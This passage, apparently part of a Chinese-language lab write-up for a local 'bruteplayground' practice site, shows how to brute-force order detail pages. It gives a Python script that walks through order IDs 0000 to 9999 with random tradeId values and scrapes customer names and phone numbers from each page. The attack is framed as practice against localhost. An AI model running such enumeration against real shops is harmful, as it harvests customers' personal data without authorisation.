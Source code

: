 ```python
            print(f"ID {order_id} 请求失败，状态码: {response.status_code}")

    except requests.exceptions.RequestException as e:
        print(f"请求ID {order_id} 时出错: {e}")
```



### 订单详情页面：traceId不重复（爆破/遍历订单号）

初始链接：

```
http://127.0.0.1/bruteplayground/by-order-id-3?orderId=3321&tradeId=1234567890
```



每一次的`tradeId`都是会进行改变的，所以我们应该找到`tradeId`是哪里传过来的，以及在数据包的哪里可以提取到！



很遗憾并没有直接能看到的`tradeId`，经过尝试，可以自己修改，只要没有使用过的都可以：

所以脚本如下：

```python
import random
import requests
from bs4 import BeautifulSoup
from datetime import datetime

base_url = "http://127.0.0.1/bruteplayground/by-order-id-3"
start_id = 0
end_id = 9999
cookies = {}
headers = {}

years=datetime.today().year
months=datetime.today().month
days=datetime.today().day

for order_id in range(start_id, end_id + 1):
    tradeId = random.randint(0, 10**10)
    url = f"{base_url}?orderId={order_id:04}&tradeId={tradeId:10}"
    try:
        response = requests.get(url,headers=headers, cookies=cookies)
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            card = soup.find('div', class_='card')
            if card:
                order_info = {
                    "订单ID": card.find('p', string=lambda x: x and '订单ID:' in x).text.split(': ')[1],
                    "客户姓名": card.find('p', string=lambda x: x and '客户姓名:' in x).text.split(': ')[1],
                    "客户电话": card.find('p', string=lambda x: x and '客户电话:' in x).text.split(': ')[1]
                }
                print(f"ID {order_id} 存在，订单信息: {order_info}")
        else:
            print(f"ID {order_id} 请求失败，状态码: {response.status_code}")

    except requests.exceptions.RequestException as e:
        print(f"请求ID {order_id} 时出错: {e}")
```
